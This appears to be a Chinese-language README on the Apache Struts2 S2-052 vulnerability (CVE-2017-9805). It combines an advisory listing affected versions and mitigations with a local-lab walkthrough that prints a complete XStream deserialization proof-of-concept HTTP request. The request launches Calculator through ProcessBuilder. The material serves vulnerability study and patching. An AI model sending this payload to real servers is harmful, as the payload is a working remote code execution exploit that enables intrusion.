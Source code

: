 
# St2-052 远程代码命令执行漏洞预警(CVE-2017-9805)

描述：当使用带有XStream处理程序的Struts REST插件来反序列化XML请求时，可能会发生RCE攻击 

CVE编号:CVE-2017-9805 

受影响的版本:Struts 2.5 - Struts 2.5.12

解决方法:升级到Apache Struts版本2.5.13，最好的选择是在不使用时删除Struts REST插件，或仅限于服务器普通页面和JSONs：

<constant name="struts.action.extension" value="xhtml,,json" />

由于应用的可用类的默认限制，某些REST操作可能会停止工作。在这种情况下，请调查介绍的新接口以允许每个操作定义类限制，那些接口是：
org.apache.struts2.rest.handler.AllowedClasses
org.apache.struts2.rest.handler.AllowedClassNames
org.apache.struts2.rest.handler.XStreamPermissionProvider

https://cwiki.apache.org/confluence/display/WW/S2-052


# S2-052的POC测试(原名：Tomcat部署war）
原文地址：http://blog.csdn.net/caiqiiqi/article/details/77861477

快照：https://urlscan.io/screenshots/a1d00309-2b07-47ef-8256-5e8d4faa1dd1.png

从struts2的官网下载最后受影响的版本struts-2.5.12，地址：
http://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-apps.zip
注意下载struts-2.5.12-apps即可，不需要下载struts-2.5.12-all.zip。不然struts-2.5.12-all.zip中包含很多其他的东西，可以看到lib目录下有很多jar包。

拿到struts-2.5.12-apps之后，将其中的app目录下的struts2-rest-showcase.war文件放到webapps目录下，我的是

/Library/Tomcat-8.5.15/webapps然后设置一下conf/server.xml文件即可。

这里把appBase设置为webapps目录，然后unpackWARs设置为true，这样就会自动解包xxx.war，autoDeploy也设置为true(热部署?)
然后就可以浏览器访问了。
直接输入
http://127.0.0.1:8080/struts2-rest-showcase/
会跳转，然后出现下面的页面，点击其中一个编辑，


然后将请求发送到burp，(我由于在FireFox上有代理插件，于是换到FireFox上了)点击”Edit”按钮，然后拦截请求，将请求中的Content-Type的值改为
application/xml,然后POST的数据用PoC中的xml内容代替。

晴天师傅的PoC

POST /struts2-rest-showcase/orders/3;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1663
Referer: http://127.0.0.1:8080/struts2-rest-showcase/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1

<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command> <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map> 


成功弹出计算器




然后可以看到页面一堆报错的
